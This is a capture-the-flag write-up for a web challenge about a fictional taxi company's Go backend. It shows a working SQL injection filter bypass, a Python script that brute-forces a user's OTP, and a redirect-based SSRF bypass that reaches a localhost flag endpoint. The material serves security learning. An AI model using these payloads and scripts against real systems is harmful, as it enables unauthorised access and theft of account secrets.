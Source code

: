 # We know this all too well

> And you were tossing me the car keys, f\*\*\* the patriarchy...\
> \
> JekGarb is a taxi company in an alternative universe that is 50 times the size of google, controlling the world's ride hailing services. I got hold of some their source, can you tell me what's wrong?\
> \
> [http://chals.ctf.sg:40301](http://chals.ctf.sg:40301)\
> \
> author: Gladiator

### OTP Verification

After we first register an account, we will quickly find that we won't be able to log in to our registered account yet - we need to verify our OTP first.

Let's take a look at how the verification is performed.

```go
func verifyHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	var otp data.UserAccount
	err := json.NewDecoder(r.Body).Decode(&otp)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
	if logic.VerifyOTP(otp) == false {
		http.Error(w, "Failed to verify OTP", http.StatusBadRequest)
		return
	}
	fmt.Fprint(w, "Account Verified")
}
```

```go
func VerifyOTP(account data.UserAccount) bool {
	user, _ := data.GetUser(account.Username)
	if user == nil {
		return false
	}
	if account.Otp != user.Otp || account.Username != user.Username || config.CheckPasswordHash(account.Password, user.Password) == false {
		return false
	} else {
		data.SetVerified(account.Username)
	}
	return true
}
```

Hmm... no dice. Looks like the verification logic itself is sound, so we have to find our OTP through some other vulnerability. Since the rest of the functions require us to be authenticated, we are only left with the `/search` URL.

### Bypassing SQL Injection Protection

Sure enough, the MySQL query builder function looks like it's vulnerable to SQL injection. If we are able to control the `username` being substituted, we can escape out of the string.

```go
func MySqlQueryBuilderSearchUser(username string) string {
	return fmt.Sprintf("SELECT * FROM user WHERE username = '%s'", username)
}
```

The only problem is that spaces, `AND`, and `OR` are replaced with empty strings in our query.

```go
func MySqlRealEscapeString(query string) string {
	s := strings.TrimSpace(query)
	s = strings.ToLower(s)
	s = strings.Replace(s, " ", "", -1)
	s = strings.Replace(s, "and", "", -1)
	s = strings.Replace(s, "or", "", -1)
	return s
}
```

```go
func serachHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	username := r.URL.Query().Get("q")
	username = config.MySqlRealEscapeString(username)
	if logic.SearchByUsername(username) == false {
		http.Error(w, "User does not exists", http.StatusBadRequest)
		return
	}
	fmt.Fprint(w, username)
}
```

To bypass this, we make use of the fact that in MySQL, comments (`/**/`) can serve as spaces, and the above replacement is non-recursive.

Our payload would then be:

```
/search?q=socengexp'/**/AANDND/**/(SUBSTR(otp,<POSITION>,1))='<GUESS>
```

Which will be translated into the MySQL query:

```sql
SELECT * FROM user WHERE username = 'socengexp' AND (SUBSTR(otp,<POSITION>,1))='<GUESS>'
```

where `GUESS` can be varied to bruteforce the character at `POSITION` (and `socengexp` is my username :smile:)

Here's the script to find our OTP, though a custom SQLMap tamper script would probably work too.

```python
import requests, string

i = 1
result = ''
while True:
    found = False
    for char in string.ascii_letters + string.digits:
        r = requests.get(f"http://chals.ctf.sg:40301/search?q=socengexp'/**/AANDND/**/(SUBSTR(otp,{i},1))='" + char)
        
        if r.status_code != 400:
            print("Found " + char)
            result += char
            i += 1
            found = True
            break
            
    if not found:
        print("Not found")
        break

print(result)
```

With the OTP we found, we can verify and log in to the application.&#x20;

### Bypassing SSRF Protection

This gives us access to `/cornelia`, which performs a GET request to a URL of our choice.

```go
func CorneliaStreet(r *http.Request) http.Response {
	cleanUrl := config.ProcessGet(r)
	if cleanUrl == "" {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	resp, err := http.Get(cleanUrl)
	if err != nil {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	return *resp
}
```

This looks like it might be vulnerable to SSRF, but the following validation prevents us from specifying `localhost` or `127.0.0.1` etc. directly.

```go
func ProcessGet(r *http.Request) string {
	var host string
	inputurl := r.URL.Query().Get("url")
	u, err := url.Parse(inputurl)
	if err != nil {
		return ""
	}
	if strings.Contains(u.Host, ":") {
		host, _, _ = net.SplitHostPort(u.Host)
	} else {
		host = u.Host
	}
	if u.Scheme == "" {
		return ""
	}
	ips, _ := net.LookupIP(host)
	for _, ip := range ips {
		if ipv4 := ip.To4(); ipv4 != nil {
			if ipv4.String() == "127.0.0.1" {
				return ""
			}
		}
	}
	return retrieveUrl(r)
}
```

That's fine, since the server follows redirects. By redirecting to `localhost:8081/flag`, we can access the flag.

```php
<?php
    Header("Location: http://localhost:8081/flag");
?>
```

The flag is `CTFSG{All_T00_W3ll_T3n_M1nutes_V3rs1on_Taylors_Version}`
